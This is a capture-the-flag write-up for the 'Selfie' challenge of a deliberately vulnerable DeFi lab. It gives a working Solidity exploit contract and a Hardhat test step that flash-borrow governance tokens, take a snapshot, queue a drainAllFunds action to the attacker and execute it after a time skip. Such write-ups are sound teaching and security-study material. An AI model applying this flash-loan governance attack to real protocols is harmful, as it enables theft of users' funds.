 # Challenge #6 - Selfie   
A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Exploit 
In this challenge, our goal is to execute the ``drainAllFunds()`` from the SelfiePool. In order to do 
that, we'll have to execute that from the governance contract. Looking at the Governance contract, we 
can execute an action as long as we have enough votes which we can get through the flashloan and that way 
we can drain all the funds.  

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface ISelfie {
	function flashLoan(uint256 borrowAmount) external;
}

interface IGovernance {
	function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256);
	function executeAction(uint256 actionId) external payable;
}

interface IToken {
	function getBalanceAtLastSnapshot(address account) external view returns (uint256);
	function balanceOf(address account) external view returns (uint256);
	function snapshot() external returns (uint256);
	function transfer(address to, uint256 amount) external returns (bool);
}

contract Exploit_Selfie {
	ISelfie pool;
	IGovernance governance;
	IToken token;
	address attacker;

	function exec(address _pool, address _governance, address _token) external {
		pool = ISelfie(_pool);
		governance = IGovernance(_governance);
		token = IToken(_token);
		attacker = msg.sender;
		pool.flashLoan(1500000 ether);
	}

	function receiveTokens(address _token , uint amount) external payable {
		bytes memory data = abi.encodeWithSignature('drainAllFunds(address)', attacker);
		token.snapshot();
		governance.queueAction(
			msg.sender,
			data,
			0 wei
		);
		token.transfer(msg.sender, amount);
	}
}
```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		await this.exploit.exec(this.pool.address, this.governance.address, this.token.address);
		await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
		await this.governance.executeAction(1, {value: ethers.utils.parseEther('1')});
    });
```


